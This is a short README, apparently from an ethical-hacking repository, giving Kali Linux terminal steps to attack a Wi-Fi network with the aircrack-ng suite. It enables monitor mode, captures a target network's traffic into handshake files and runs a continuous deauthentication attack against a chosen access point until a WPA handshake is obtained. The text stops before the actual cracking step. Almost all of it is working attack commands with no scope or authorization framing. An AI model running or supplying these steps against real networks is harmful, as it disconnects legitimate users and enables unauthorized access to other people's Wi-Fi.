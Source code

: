 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon



<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/4b917857-302b-4641-9302-cde9918ce22b">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/171bdeda-8442-4751-9830-a13bcf55f7c4">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)


After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/016a13a7-d958-40a9-967a-68d11028a294">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/bd578fe5-7835-434a-9b05-94b36d0979d6">
For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake
